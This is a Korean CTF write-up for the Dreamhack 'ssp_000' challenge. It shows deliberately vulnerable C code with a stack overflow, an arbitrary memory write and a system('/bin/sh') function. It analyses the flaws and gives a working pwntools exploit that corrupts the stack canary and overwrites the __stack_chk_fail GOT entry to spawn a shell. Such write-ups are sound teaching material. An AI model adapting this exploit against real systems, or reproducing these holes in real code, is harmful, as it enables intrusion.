 Dreamhack ssp_000
==============

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

ssp_001 문제와 같이 카나리 보호 기법이 걸려있는데 이건 코드를 보면 카나리를 유출할 수 없어서 ssp_001 문제와 같은 방법으로 카나리를 우회하기는 어렵다.

그러나 코드에는 취약점이 따로 있다.


---------

## 취약점 분석

1.  **스택 버퍼 오버플로우:**
    `main` 함수 내의 `read(0, buf, 0x80);`
    * `buf` 배열은 `char buf[0x40]`으로 선언되어 64바이트(0x40)의 크기를 가진다.
    * 하지만 `read` 함수는 표준 입력(0)으로부터 최대 128바이트(0x80)를 읽어 `buf`에 저장하도록 되어 있다.
    * 사용자가 64바이트를 초과하는 데이터를 입력하면 `buf` 다음에 위치한 스택 메모리 영역, 특히 **카나리 값이 저장된 공간을 덮어쓸 수 있다.**

2.  **임의 메모리 쓰기 취약점:**
    `*(long *)addr = value;` 
    * 사용자로부터 `addr` (주소)과 `value` (값)을 입력받는다.
    * 그리고 입력받은 `addr`이 가리키는 메모리 위치에 `value`를 쓴다.
    * **이 부분은 입력값에 대한 검증이나 제한이 없다.** 이를 이용해서 프로그램의 어느 메모리 위치든 원하는 값을 쓸 수 있다. 


----------------


## 익스플로잇 시나리오 


1.  **카나리 값 변조:** `read(0, buf, 0x80);` 를 이용하여 `buf`의 크기를 초과하는 데이터를 입력하여 스택의 카나리 값을 고의로 변조한다.
2.  **`__stack_chk_fail` 함수를 `get_shell` 함수로 GOT Overwrite:** `*(long *)addr = value;` 임의 메모리 쓰기 취약점을 이용하여 `__stack_chk_fail` 함수의 GOT 엔트리 주소를 찾은 후 `get_shell` 함수의 주소로 덮어쓴다.
3.  **쉘 획득:** 카나리 변조로 인해 `__stack_chk_fail` 함수가 호출되면 GOT 오버라이트 때문에 실제로는 `get_shell` 함수가 실행되어 쉘을 획득한다.

------------

## 익스플로잇 코드

```python
from pwn import *

p = remote("host1.dreamhack.games", 23429)

e = ELF("./ssp_000")

get_shell = e.symbols['get_shell']
stack_chk_fail_got = e.got['__stack_chk_fail']

payload = b'A' * 0x50
p.sendline(payload)

print("[+] stack_chk_fail: ", hex(stack_chk_fail_got))

p.sendlineafter("Addr : ", str(stack_chk_fail_got))
p.sendlineafter("Value : ", str(get_shell))

p.interactive()
```
-------------

## 익스플로잇 코드 분석


```python
get_shell = e.symbols['get_shell'] # get_shell 함수의 주소 획득
stack_chk_fail_got = e.got['__stack_chk_fail'] # __stack_chk_fail@got 주소 획득
```

  * `e.symbols['get_shell']`: 로드한 `ssp_000` 파일에서 `get_shell`이라는 함수의 **주소를 찾아서 `get_shell` 변수에 저장**한다. 주소는 나중에 `__stack_chk_fail` 대신 호출될 함수 주소이다.
  * `e.got['__stack_chk_fail']`: `__stack_chk_fail` 함수는 프로그램 외부의 함수이므로 GOT 테이블에 그 주소가 기록된다. `e.got['__stack_chk_fail']`을 통해 **`__stack_chk_fail`의 GOT 엔트리 주소**를 얻어 `stack_chk_fail_got` 변수에 저장한다. 이 주소가 덮어쓸 대상이다.


   

```python
p.sendlineafter("Addr : ", str(stack_chk_fail_got)) # 임의 쓰기 주소 입력
p.sendlineafter("Value : ", str(get_shell)) # 임의 쓰기 값 입력
```

이 부분이 **임의 메모리 쓰기 취약점**을 활용하는 부분이다.

  * `p.sendlineafter("Addr : ", str(stack_chk_fail_got))`: "Addr : " 문자열이 출력될 때까지 기다렸다가 찾은 **`__stack_chk_fail`의 GOT 주소를 문자열로 변환하여 입력**한다. `main` 함수의 `scanf("%ld", &addr)` 부분에 해당하는 입력이다.
  * `p.sendlineafter("Value : ", str(get_shell))`: "Value : " 문자열이 출력될 때까지 기다렸다가 `get_shell` 함수의 **주소를 문자열로 변환하여 입력**한다. 이는 `scanf("%ld", &value)` 부분에 해당한다.
    결과적으로 `*(long *)addr = value;` 코드에 의해 **`__stack_chk_fail` 함수의 GOT 엔트리가 `get_shell` 함수의 주소로 덮어씌워진다.**



-------------

## 실행 결과

<img width="452" height="136" alt="image" src="https://github.com/user-attachments/assets/9593766e-96d9-4ca2-aa93-ea9854e4c40c" />

이렇게 플래그를 구할 수 있다. 
